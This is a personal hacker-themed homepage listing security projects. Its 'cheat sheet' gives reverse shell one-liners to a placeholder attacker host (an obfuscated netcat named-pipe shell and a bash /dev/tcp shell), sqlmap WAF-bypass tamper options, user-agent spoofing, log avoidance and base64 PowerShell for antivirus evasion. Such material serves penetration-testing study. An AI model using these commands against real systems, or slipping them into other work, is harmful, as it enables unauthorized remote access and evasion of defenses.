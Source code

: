 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

![Hacker Banner](https://user-images.githubusercontent.com/hacker-image.png)

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities, and cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) - A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) - Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) - Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) - Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) - Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) - A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) - A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) - A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) - Detect network anomalies using these tools and techniques.
---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities, and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt
  ```
Quick and powerful fuzzing to discover hidden directories.

### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:

```
http.request.method == "GET"
```
Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques
- Bypass WAF using SQLMap with tamper scripts:
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
```
Get around pesky WAFs with a tamper script and crank up the aggression.

- Custom User-Agent to fool detection systems:
```
curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com

```
Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells

- Obfuscated Netcat reverse shell:

```
mkfifo /tmp/lolpipe; nc <attacker IP> <port> 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
```
Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- Bash TCP reverse shell (for when Netcat isn’t available):
```
bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
```
Minimal footprint, effective on many Unix-based systems.
### 💻 5. Stealth Techniques
- Avoid logging by executing commands in memory (Linux):
```
exec /bin/bash 0</dev/null 2>/dev/null
```
Run commands in a way that avoids leaving traces in `/var/log` files.

- Evade AV detection with PowerShell base64 encoding:
  ```
  powershell.exe -EncodedCommand <Base64 Encoded Command>
  ```
Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.
### 🛠️ 6. Tools You Might Not Know (But Should)
- ([Obsidian]https://obsidian.md/)– A tool for creating encrypted vaults of notes and penetration testing playbooks
- ([Chaos Reader]http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- ([LinEnum]https://github.com/rebootuser/LinEnum)– A Linux enumeration script to quickly find privilege escalation vectors.
### 🎯 7. Fuzzing on Steroids
- Fuzzing APIs with POST requests using FFUF:
  ```
  ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
  ```
Quickly find API vulnerabilities by fuzzing POST request bodies.

- Fuzzing JSON APIs with AFL (American Fuzzy Lop):
  ```
  afl-fuzz -i input/ -o output/ -- ./target_binary @@
  ```
Use AFL to find memory corruption issues in JSON parsers, or other binary targets.
💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉
  

## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!

